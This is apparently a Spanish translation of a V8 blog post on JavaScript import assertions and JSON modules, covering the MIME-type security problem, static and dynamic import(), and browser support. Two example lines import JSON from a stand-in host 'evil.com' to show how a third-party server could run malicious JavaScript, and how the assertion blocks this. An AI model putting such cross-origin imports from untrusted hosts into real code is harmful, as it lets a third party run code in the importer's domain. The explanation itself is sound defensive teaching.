 ```yaml
---
title: "Aserciones de importación"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), importador asertivo de aserciones de importación"
avatars:
  - "dan-clark"
date: 2021-06-15
tags:
  - ECMAScript
description: "Las aserciones de importación permiten que las declaraciones de importación de módulos incluyan información adicional junto al especificador del módulo"
tweet: ""
---
```


La nueva función de [aserciones de importación](https://github.com/tc39/proposal-import-assertions) permite que las declaraciones de importación de módulos incluyan información adicional junto al especificador del módulo. Un uso inicial de esta función es habilitar la importación de documentos JSON como [módulos JSON](https://github.com/tc39/proposal-json-modules):

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Antecedentes: Módulos JSON y tipo MIME

Una pregunta natural es por qué un módulo JSON no podría ser simplemente importado así:

```javascript
import json from './foo.json';
```

La plataforma web verifica el tipo MIME de un recurso de módulo para su validez antes de ejecutarlo, y en teoría este tipo MIME también podría usarse para determinar si tratar el recurso como un JSON o como un módulo JavaScript.

Sin embargo, existe un [problema de seguridad](https://github.com/w3c/webcomponents/issues/839) al confiar únicamente en el tipo MIME.

Los módulos pueden ser importados de un origen cruzado, y un desarrollador podría importar un módulo JSON desde una fuente de terceros. Podrían considerar esto como básicamente seguro incluso desde un tercero no confiable siempre que el JSON esté debidamente sanitizado, ya que importar JSON no ejecutará scripts.

Sin embargo, el script de terceros en realidad puede ejecutarse en este escenario, ya que el servidor de terceros podría responder inesperadamente con un tipo MIME de JavaScript y una carga maliciosa de JavaScript, ejecutando código en el dominio del importador.

```javascript
// Ejecuta JS si evil.com responde con un
// tipo MIME de JavaScript (e.g., `text/javascript`)!
import data from 'https://evil.com/data.json';
```

Las extensiones de archivo no pueden usarse para determinar el tipo de módulo porque [no son un indicador confiable del tipo de contenido en la web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Por lo tanto, utilizamos aserciones de importación para indicar el tipo de módulo esperado y prevenir esta escalada de privilegios.

Cuando un desarrollador quiere importar un módulo JSON, debe usar una aserción de importación para especificar que se supone que es JSON. La importación fallará si el tipo MIME recibido de la red no coincide con el tipo esperado:

```javascript
// Falla si evil.com responde con un tipo MIME no JSON.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## `import()` dinámico

Las aserciones de importación también pueden pasarse a [`import()` dinámico](https://v8.dev/features/dynamic-import#dynamic) con un nuevo segundo parámetro:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

El contenido JSON es la exportación predeterminada del módulo, por lo que se referencia a través de la propiedad `default` en el objeto devuelto por `import()`.

## Conclusión

Actualmente, el único uso especificado de las aserciones de importación es para especificar el tipo de módulo. Sin embargo, la función fue diseñada para permitir pares arbitrarios de clave/valor en las aserciones, por lo que podrían añadirse usos adicionales en el futuro si resulta útil restringir las importaciones de módulos de otras maneras.

Mientras tanto, los módulos JSON con la nueva sintaxis de aserciones de importación están disponibles de forma predeterminada en Chromium 91. [Los scripts de módulos CSS](https://chromestatus.com/feature/5948572598009856) también estarán disponibles pronto, utilizando la misma sintaxis de aserciones de tipo de módulo.

## Soporte para aserciones de importación

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
